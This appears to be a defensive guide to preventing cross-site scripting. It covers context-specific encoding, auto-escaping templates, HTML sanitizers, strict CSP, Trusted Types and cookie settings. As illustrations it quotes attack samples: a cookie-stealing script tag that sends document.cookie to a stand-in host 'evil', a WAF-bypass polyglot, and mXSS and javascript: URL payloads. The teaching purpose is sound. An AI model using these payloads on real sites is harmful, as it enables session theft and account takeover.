



# Cross-Site Scripting (XSS)

## Why This Exists

**Problem.** Browsers can't tell the difference between JavaScript that the application's developers wrote and JavaScript that an attacker smuggled into a page through user-controlled data. If `<script>fetch('https://evil/?c='+document.cookie)</script>` ends up in the HTML the browser parses, it runs with the same authority as your own code: same-origin reads, cookies (unless `HttpOnly`), localStorage, CSRF tokens, the lot. XSS has been on the OWASP Top 10 since 2003 and remains the #1 web-app bug class by volume reported on bug-bounty platforms.

**Key insight.** XSS is **not** a string problem; it is a **context confusion** problem. The same byte sequence is harmless in one HTML context and catastrophic in another. `</script>` is text inside a `<p>`, end-of-script inside a `<script>`, and an attribute value inside `<a title="...">`. Any defense that treats input as one undifferentiated "user data" blob will leak. The fix is to **encode at the sink, for the exact context the bytes will be parsed in**, and to make the safe path the only path your developers can write (auto-escaping templates, Trusted Types, sanitizer-only `innerHTML`).

**Reach for this when:**
- You render any user-controlled data into HTML, attributes, JS, URLs, CSS, or SVG.
- You're building a rich-text editor, comment system, ticketing UI, email renderer, dashboard with user-defined widgets.
- You allow file uploads that could be served from your origin (especially SVG, HTML, PDF).
- You're hardening a legacy app: deploying CSP, migrating from `innerHTML` to safer APIs, adding Trusted Types.
- A pentest report says "stored XSS in /comments/post" and you need to fix it without playing whack-a-mole.

**Don't reach for this when:**
- The vulnerability is *server-side* template injection (SSTI), SQL injection, SSRF, or command injection — different sinks, different defenses.
- You're hunting for **CSRF** (XSS bypasses CSRF; CSRF is its own chapter — see `../csrf/`).
- The issue is **clickjacking** (frame-ancestors, X-Frame-Options) or **content sniffing** (X-Content-Type-Options) — adjacent but distinct.
- You're building a fully native app with no web view — XSS is web-platform specific.

## Diagrams

### The three classical XSS flavors



### Defense layers — defense in depth



### DOM XSS — why server-side encoding doesn't save you



## Core Defenses

### 1. Output encoding by context — the foundation

The single most-violated rule: **the encoding you need depends on where in the document the data lands.** OWASP's XSS Prevention Cheat Sheet enumerates the contexts; here are the five that cover ~99% of real bugs.

```typescript
// ---------- Context 1: HTML body / element content ----------
// Sink: <div>{{ data }}</div>
// Encode: & < > " ' /  (and ideally everything non-alphanumeric below 0xFF)
function encodeHtml(s: string): string {
  return s.replace(/[&<>"'/]/g, c => ({
    "&": "&amp;", "<": "&lt;", ">": "&gt;",
    '"': "&quot;", "'": "&#x27;", "/": "&#x2F;",
  }[c]!));
}

// ---------- Context 2: HTML attribute (quoted) ----------
// Sink: <input value="{{ data }}">
// Encode: same as HTML body, BUT you MUST quote the attribute.
// Unquoted attrs (<input value={{data}}>) accept whitespace, =, > as terminators.
// Rule: always double-quote attributes; then encodeHtml() is sufficient.

// ---------- Context 3: JavaScript string literal ----------
// Sink: <script>var x = "{{ data }}";</script>
// Encode: \xHH for every non-alphanumeric byte. Do NOT just escape quotes —
// </script> ends the script element regardless of quoting context.
function encodeJsString(s: string): string {
  return s.replace(/[^a-zA-Z0-9]/g, c => {
    const code = c.charCodeAt(0);
    return code < 0x100
      ? "\\x" + code.toString(16).padStart(2, "0")
      : "\\u" + code.toString(16).padStart(4, "0");
  });
}
// Better: don't inject into <script> at all. Emit JSON in a
// <script type="application/json" id="data">{...}</script> and parse it:
//   const data = JSON.parse(document.getElementById("data").textContent);
// JSON.stringify with the < > & / replacement is safe for this carrier.

// ---------- Context 4: URL (href, src, action, formaction) ----------
// Sink: <a href="{{ data }}">click</a>
// Threat: javascript:alert(1) and data:text/html;base64,... are valid URLs.
// HTML-encoding does NOT help: &#106;avascript: still parses as javascript:.
const SAFE_URL_SCHEMES = new Set(["http:", "https:", "mailto:", "tel:"]);
function safeUrl(raw: string): string {
  try {
    // Allow protocol-relative and same-origin paths
    if (raw.startsWith("/") || raw.startsWith("#") || raw.startsWith("?")) return raw;
    const u = new URL(raw, "https://placeholder.invalid/");
    if (!SAFE_URL_SCHEMES.has(u.protocol)) return "about:blank";
    return u.toString();
  } catch {
    return "about:blank";
  }
}
// Then: <a href="{{ encodeHtml(safeUrl(data)) }}">

// ---------- Context 5: CSS value ----------
// Sink: <div style="background: url({{ data }})"> or <style>.x { color: {{ data }} }</style>
// Threat: expression(...) (old IE), url("javascript:..."), behavior:url(...)
// Defense: don't let users supply raw CSS. If you must, restrict to a whitelist
// of properties and pre-validated values (hex colors, px lengths, named keywords).
// Never inject user data inside <style> — sanitize to a property bag instead.
```

**Rule of thumb that actually scales:** stop hand-rolling these. Use a template engine that picks the right encoder based on the AST position of the substitution (Go `html/template`, Angular, React JSX, Vue, Lit, Soy, Pug with `=`). Hand-encoded strings are how every CMS gets its annual XSS CVE.

### 2. Auto-escaping templates — make the safe path the default

Compare three templates rendering the same data:

```python
# UNSAFE: Python str.format / f-strings have no concept of HTML context.
# Devs reach for this when the template engine "feels heavy". They ship XSS.
html = f"<div>{user_comment}</div>"   # stored XSS the day it lands

# SAFE: Jinja2 with autoescape=True (default in Flask for .html files)
# {{ user_comment }} -> HTML-encoded automatically.
# {{ user_comment | safe }} bypasses encoding -- grep for `| safe` in code review.
from jinja2 import Environment, select_autoescape
env = Environment(autoescape=select_autoescape(["html", "xml"]))

# SAFER: Go html/template -- context-aware, picks HTML / JS / URL / CSS encoder
# based on AST position. No `| safe` equivalent without explicit template.HTML().
```

```go
// Go html/template: notice we pass plain strings; the template
// chooses the encoder per sink.
import "html/template"

const tpl = `
<a href="{{.URL}}" title="{{.Title}}">{{.Text}}</a>
<script>var msg = {{.Text}};</script>
`
// If .URL is "javascript:alert(1)", html/template rewrites it to "#ZgotmplZ".
// If .Text contains </script>, it's emitted as "</script>" inside the script.
// Same input, three different encodings -- because the parser knows the context.
```

**Anti-pattern roll-call:**
- React: `dangerouslySetInnerHTML={{__html: userInput}}` — the name is a warning. Only with sanitized HTML.
- Vue: `v-html="userInput"` — same.
- Angular: `[innerHTML]` is sanitized by default; `bypassSecurityTrustHtml()` is the foot-gun.
- Lit: `unsafeHTML(userInput)` — same.
- Mustache: `{{{ triple-stash }}}` skips escaping. Search for it.

### 3. HTML sanitization — when you actually need rich HTML

If a comment field must support `<b>`, `<a>`, lists, images, you can't just encode — you need to **parse, walk the tree, drop dangerous nodes/attributes, re-serialize**. This is what DOMPurify does.

```typescript
import DOMPurify from "dompurify";

// Browser side -- runs in real DOMParser, sees what the browser will see.
const dirty = userBlogPost;        // raw HTML from rich-text editor
const clean = DOMPurify.sanitize(dirty, {
  ALLOWED_TAGS: ["b", "i", "em", "strong", "a", "p", "br", "ul", "ol", "li", "code", "pre", "blockquote", "img"],
  ALLOWED_ATTR: ["href", "title", "alt", "src"],
  ALLOWED_URI_REGEXP: /^(?:https?|mailto):/i,
  // FORBID_TAGS / FORBID_ATTR if you want a deny-list on top.
  USE_PROFILES: { html: true },
  RETURN_TRUSTED_TYPE: true,       // play nice with Trusted Types policy
});
container.innerHTML = clean;       // safe -- DOMPurify return type satisfies the policy
```

**Why DOMPurify and not a regex/string sanitizer:**
- Regex-based "tag strippers" lose to mutation XSS (mXSS): `<svg><p><style><a id="</style>">` is benign as a string; the browser's HTML parser re-shapes it into an ``. Only a real parser sees the post-mutation tree.
- DOMPurify uses the browser's own DOMParser (or jsdom on the server), so what it analyzes is what will execute. Cure53 maintains an mXSS test corpus; rolling your own loses to it.
- Server-side: use `isomorphic-dompurify` (DOMPurify + jsdom) or **OWASP Java HTML Sanitizer** for the JVM. PHP: HTML Purifier. Python: nh3 (Rust-based, ammonia binding) or Bleach (slower, sufficient for most).

```python
# Python server-side -- nh3 is the modern choice.
import nh3
clean = nh3.clean(
    user_html,
    tags={"b", "i", "p", "a", "ul", "ol", "li", "code"},
    attributes={"a": {"href", "title"}},
    url_schemes={"http", "https", "mailto"},
)
```

**Things sanitizers don't fix:**
- Markdown -> HTML pipelines: sanitize **after** the markdown render, not the markdown source. Markdown allows raw HTML by default; renderers like `marked` need `breaks: true, mangle: false` and a sanitize step on the output.
- SVG uploads served from your origin: SVGs can carry `<script>` and event handlers. Either sanitize them or serve from a sandboxed origin (e.g. `usercontent.example.com`) with a restrictive CSP.

### 4. Content Security Policy — last line of defense

CSP tells the browser "even if my template leaks, only run scripts I explicitly authorize." There are two viable modern strategies; **avoid the host-allowlist style** (the [Weichselbaum et al. 2016](https://research.google/pubs/pub45542/) Google paper showed 94%+ of allowlist CSPs are bypassable in the wild via JSONP endpoints or open redirects on whitelisted hosts).

#### Strategy A: Strict CSP with nonces (recommended for new apps)

```http
Content-Security-Policy:
  script-src 'nonce-r4nd0m-per-request' 'strict-dynamic';
  object-src 'none';
  base-uri 'none';
  require-trusted-types-for 'script';
  report-uri /csp-report
```

```html
<!-- Server generates a fresh, cryptographically random nonce per response. -->
<!-- Inline scripts MUST carry the matching nonce attribute. -->
<script nonce="r4nd0m-per-request">
  // app boot code
</script>

<!-- 'strict-dynamic' lets a nonced script load further scripts via DOM
     insertion (createElement('script')+appendChild) without re-noncing.
     This is what makes CSP compatible with bundlers and SPA loaders. -->
```

Server side (Express example):

```typescript
import crypto from "crypto";

app.use((req, res, next) => {
  const nonce = crypto.randomBytes(16).toString("base64");
  res.locals.cspNonce = nonce;
  res.setHeader("Content-Security-Policy", [
    `script-src 'nonce-${nonce}' 'strict-dynamic'`,
    `object-src 'none'`,
    `base-uri 'none'`,
    `require-trusted-types-for 'script'`,
    `report-uri /csp-report`,
  ].join("; "));
  next();
});
```

**Why nonces, not hashes:** hashes work for known inline scripts but break with any per-request variation. Nonces work for both static and dynamic inline scripts. **Why `'strict-dynamic'`:** it removes the need to allowlist every CDN your bundler injects, and it's far harder to bypass than host allowlists.

**Why `object-src 'none'` and `base-uri 'none'`:** flash and other plugin content can host script-equivalent payloads; `<base href>` injection rewrites every relative URL on the page to attacker-controlled.

#### Strategy B: Hash-based CSP (for static sites with known scripts)

```http
Content-Security-Policy:
  script-src 'sha256-AbCd...' 'sha256-EfGh...';
  object-src 'none'
```

Use when you have a small, fixed set of inline scripts you can hash at build time.

#### Deploying CSP without breaking production

```http
# Step 1 -- ship in report-only mode for 1-2 weeks, watch the firehose.
Content-Security-Policy-Report-Only: <your policy>; report-uri /csp-report

# Step 2 -- triage reports. Every legitimate inline event handler, every
# inline style, every CDN dependency shows up here. Fix or allowlist them.

# Step 3 -- flip to enforcement (`Content-Security-Policy`). Keep the
# report-uri so you see new violations as new code lands.
```

**CSP gotchas:**
- `unsafe-inline` and `unsafe-eval` defeat the entire defense. If the policy contains either alongside a nonce, the nonce is ignored in some older browsers — newer browsers ignore `unsafe-inline` when a nonce is present, but you should never rely on this.
- Inline event handlers (`onclick="..."`) are blocked by strict CSP. Migrate to `addEventListener`.
- `javascript:` URLs in `<a href>` are blocked. Migrate to `addEventListener`.
- Browser extensions inject scripts that often violate your CSP. The reports are noisy. Filter `report.violated-directive` against known extension URLs.

### 5. Trusted Types — kill DOM XSS at the API boundary

CSP catches injected `<script>`. **Trusted Types** catches the moment your code passes a string to a dangerous DOM sink (`innerHTML`, `outerHTML`, `document.write`, `eval`, `Function`, `setTimeout(string)`, `setAttribute("on*")`).

```http
Content-Security-Policy:
  require-trusted-types-for 'script';
  trusted-types app-policy default
```

```typescript
// Without Trusted Types: this is the textbook DOM XSS sink.
container.innerHTML = userInput;            // BOOM with attacker hash fragment

// With Trusted Types enforced: the line above throws a TypeError.
// You MUST route through a named policy.
const policy = trustedTypes.createPolicy("app-policy", {
  createHTML: (raw: string) => DOMPurify.sanitize(raw, { RETURN_TRUSTED_TYPE: true }),
  createScriptURL: (raw: string) => {
    const u = new URL(raw, location.href);
    if (u.origin !== location.origin) throw new Error("cross-origin script blocked");
    return u.toString();
  },
});

container.innerHTML = policy.createHTML(userInput);   // OK
```

The big win: **Trusted Types makes XSS a build-time / type-time bug.** TypeScript's lib.dom adds `TrustedHTML` types; eslint-plugin-no-unsanitized flags raw-string assignments to dangerous sinks. You can no longer accidentally write `el.innerHTML = data` and ship it.

Browser support: Chrome/Edge since 2020, Firefox in 2024. Safari has no native support — feature-detect and gracefully degrade (Trusted Types is defense in depth, not your only layer).

### 6. Cookie hygiene — limit the blast radius

Even with all the above, assume one XSS will eventually land. Make it as cheap as possible.

```http
Set-Cookie: session=abc123;
            HttpOnly;          # JS cannot read document.cookie -- defeats the cookie-stealing payload
            Secure;            # HTTPS only -- defeats network-injected XSS via plaintext intermediate
            SameSite=Lax;      # blocks most CSRF-from-XSS chaining
            Path=/;
            Max-Age=3600
```

`HttpOnly` doesn't stop XSS — the attacker can still make authenticated requests via `fetch` with `credentials: "include"`. But it stops the dumb "exfiltrate cookie to attacker domain" payload that script kiddies copy-paste. Combined with short-lived sessions and IP/UA binding on session cookies, you turn a stored XSS from "complete account takeover" into "needs a victim browser session and a same-origin path."

Don't put auth tokens in `localStorage`. Any XSS reads it trivially. Use `HttpOnly` cookies for session, and if you need a CSRF token in JS, use the double-submit pattern with a separate non-HttpOnly cookie for that token only.

## Trade-offs

| Benefit | Cost |
|---|---|
| Auto-escaping templates (Go `html/template`, JSX) — XSS-by-default-impossible for most sinks | Devs sometimes need raw HTML and reach for `dangerouslySetInnerHTML` / `template.HTML(...)`. Need code-review discipline / lint rules. |
| DOMPurify allows rich HTML safely | Adds ~20KB gzipped to bundle; sanitization on every render is non-trivial CPU on long documents; allow-list discipline (forgetting `target` or `rel` on `<a>`). |
| Strict CSP with nonces + strict-dynamic | Requires server-side nonce generation per request (no full-page CDN caching of HTML); breaks naive analytics snippets and inline event handlers; report-uri firehose during rollout. |
| Trusted Types | Catches DOM XSS at the sink, type-checked at build time | Migrating a legacy SPA is months of work; Safari has no native support; third-party scripts (analytics, ads, A/B test SDKs) often fail. |
| `HttpOnly` cookies | Cookie-exfiltration XSS payloads no longer work | Doesn't stop authenticated `fetch()` from XSS; some legacy SPAs read cookies in JS for CSRF tokens (need refactor). |
| Server-side input validation (length, charset, type) | Reduces attack surface, catches encoding-confused inputs early | Validation is **not** a substitute for output encoding. Devs who confuse the two ship XSS. |
| Sandbox iframe (`<iframe sandbox>`) for user content | Strong isolation for embedded user widgets | Must be on a separate origin to fully neutralize cookies/CSRF; cross-frame messaging needs `postMessage` plumbing. |
| WAF XSS rules | Catches noisy automated scanners; quick band-aid | Bypassed by polyglots, mutation, encoding tricks; **never** treat as a fix; produces false confidence. |

## Common Pitfalls

- **"We escape on input."** Storing pre-encoded data corrupts non-HTML uses (CSV export, API responses, JSON). Encode at the **sink**, not the source. Store raw bytes.
- **"We use a WAF, we're fine."** Polyglot payloads (`jaVasCript:/*-/*\`/*\\`/*'/*\"/**/(/* */oNcliCk=alert() )//...`) defeat naive regex WAFs. WAF is a speed bump, not a wall.
- **HTML-encoding inside `<script>`.** Encoding `<` to `&lt;` doesn't help inside a script element — the script parser doesn't HTML-decode. Use `\xHH` JS-string encoding, or better: emit JSON in a separate `<script type="application/json">` block and parse.
- **Unquoted attributes.** `<input value={{data}}>` is XSS even with HTML encoding because whitespace, `=`, and `>` are valid attribute terminators. Always double-quote.
- **`href="{{url}}"` without scheme validation.** `javascript:alert(1)` and `data:text/html,...` are valid URLs and HTML-encoding doesn't strip the scheme. Whitelist schemes.
- **DOM-based XSS bypassing all server defenses.** Server returned safe HTML; the bug is `container.innerHTML = location.hash.slice(1)` in the SPA. Server-side WAF, CSP nonces, sanitization on the server — all useless here. Only Trusted Types, strict CSP enforcement on dynamic script sources, and DOMPurify-in-the-policy save you.
- **mXSS through `innerHTML` round-trip.** Sanitizing a string then re-parsing it as HTML can produce a *different* DOM than what the sanitizer saw. Always sanitize against the same parser the browser will use (DOMPurify uses DOMParser; this is why string-based sanitizers are broken).
- **SVG / MathML namespaces.** `<svg><a xlink:href="javascript:..."><circle/></a></svg>` and friends carry XSS. Sanitize SVG with the same rigor as HTML, or block SVG uploads.
- **Markdown renderers.** `marked` < 4.0 allowed raw HTML by default. Many CommonMark implementations do. Sanitize the *rendered output*, not the markdown.
- **`postMessage` handlers without origin checks.** `window.addEventListener("message", e => eval(e.data))` is a self-XSS even if the rest of the app is bulletproof. Always `if (e.origin !== "https://expected") return`.
- **CSP report-uri set up without log review.** Endless reports of `chrome-extension://` violations bury the real ones. Filter, then alert on actual app-origin violations.
- **`unsafe-eval` "just for one library"** (older versions of Vue, Angular JIT, some chart libs). It defeats the entire policy. Either prebuild templates or pick a lib that supports CSP-strict mode.
- **`target="_blank"` without `rel="noopener noreferrer"`.** Not XSS, but a related tab-nabbing class — the new tab can `window.opener.location = "phishing"`. Modern browsers default-noopener, but defense-in-depth: emit it explicitly.
- **JSONP endpoints / open redirects on whitelisted CDN hosts.** A `script-src https://googleapis.com` policy is bypassed by any JSONP endpoint on that host. Strict CSP (nonce + strict-dynamic) avoids host allowlists entirely.
- **Storing user HTML in fields rendered as plaintext, then later switched to HTML render.** Six months later someone changes the column from `text` to `html` and stored XSS appears retroactively. Treat data classification as part of the schema.

## Decision Table

| Scenario | Pick | Why |
|---|---|---|
| New web app, full control of frontend | **Auto-escaping framework (React/Vue/Angular/Svelte) + strict CSP with nonces + Trusted Types + HttpOnly cookies** | Defense in depth, all modern. Sets the bar where it should be in 2026. |
| Legacy app, can't refactor templates | **Strict CSP in report-only -> enforce; HTML sanitizer at the sink; HttpOnly cookies** | CSP is the highest-leverage retrofit. Sanitizer at known sinks. Skip Trusted Types until you migrate JS. |
| Rich-text editor (comments, blog posts) | **DOMPurify (browser) or nh3/OWASP Java HTML Sanitizer (server) + allow-list of tags/attributes/URI schemes** | Auto-escaping kills the rich text. Sanitizer is purpose-built. Always allow-list, never deny-list. |
| Plain text rendering (usernames, titles) | **Auto-escaping template, no sanitizer** | Simpler, faster, no allow-list to maintain. Sanitizer here is overkill and risky (might allow tags you didn't mean to). |
| User-uploaded SVG / HTML files | **Serve from a separate sandboxed origin (e.g. `usercontent.app.example`) with restrictive CSP and `Content-Disposition: attachment` for HTML** | Same-origin SVG is XSS-equivalent. Origin separation contains it. |
| Embeddable widget / iframe content | **`<iframe sandbox="allow-scripts">` from separate origin + postMessage with origin checks** | Sandbox + cross-origin neutralizes cookies and storage access. |
| Third-party script integration (analytics, ads) | **Subresource Integrity (SRI) hashes + CSP with explicit hash/host + nonce; or load in iframe** | You can't audit their code; pin the version, contain the blast radius. |
| Markdown-driven content | **Render markdown -> sanitize HTML output with DOMPurify/nh3** | Don't try to sanitize markdown source; the renderer permits raw HTML. |
| Email rendering (received user emails) | **Strip all script, sanitize aggressively, render in sandboxed iframe with no JS** | Email HTML is a 30-year history of XSS. Don't trust it. |
| Internal admin tool, intranet, low risk | **Auto-escaping template + HttpOnly cookies; skip CSP/Trusted Types** | Pragmatism. Don't over-engineer. Revisit if it ever faces external users. |

## References

- OWASP — Cross-Site Scripting (XSS) Prevention Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- OWASP — DOM-based XSS Prevention Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html
- OWASP — Content Security Policy Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html
- OWASP — HTML Sanitization (Java HTML Sanitizer) — https://owasp.org/www-project-java-html-sanitizer/
- Weichselbaum, Spagnuolo, Lekies, Janc (Google) — *CSP Is Dead, Long Live CSP! On the Insecurity of Whitelists and the Future of Content Security Policy* — CCS 2016 — https://research.google/pubs/pub45542/
- Lekies, Stock, Johns — *25 Million Flows Later: Large-scale Detection of DOM-based XSS* — CCS 2013 — https://dl.acm.org/doi/10.1145/2508859.2516703
- Heiderich, Schwenk, Frosch, Magazinius, Yang — *mXSS Attacks: Attacking well-secured web-applications by using innerHTML mutations* — CCS 2013 — https://cure53.de/fp170.pdf
- W3C — Content Security Policy Level 3 — https://www.w3.org/TR/CSP3/
- W3C — Trusted Types — https://www.w3.org/TR/trusted-types/
- MDN — Content Security Policy — https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy
- MDN — Trusted Types — https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API
- DOMPurify — https://github.com/cure53/DOMPurify
- Google web.dev — Strict CSP — https://web.dev/articles/strict-csp
- Google web.dev — Trusted Types — https://web.dev/articles/trusted-types
- Anne van Kesteren et al. — HTML Standard, Parsing — https://html.spec.whatwg.org/multipage/parsing.html
- *Building Secure and Reliable Systems* (Beyer, Adkins, et al., O'Reilly 2020) — Ch. 12 "Writing Code", Ch. 6 "Design for Understandability" — https://sre.google/books/building-secure-reliable-systems/
- PortSwigger Web Security Academy — Cross-site scripting — https://portswigger.net/web-security/cross-site-scripting
- Mozilla Observatory (rate your CSP) — https://observatory.mozilla.org/
- Google CSP Evaluator — https://csp-evaluator.withgoogle.com/

## See Also

- `../csrf/` — Cross-Site Request Forgery: complementary; XSS bypasses CSRF tokens, so XSS defense comes first.
- `../ssrf/` — Server-Side Request Forgery: orthogonal but often chained with stored XSS for cloud-metadata theft.
- `../threat-modeling/` — STRIDE, abuse cases; XSS appears under Tampering and Elevation.
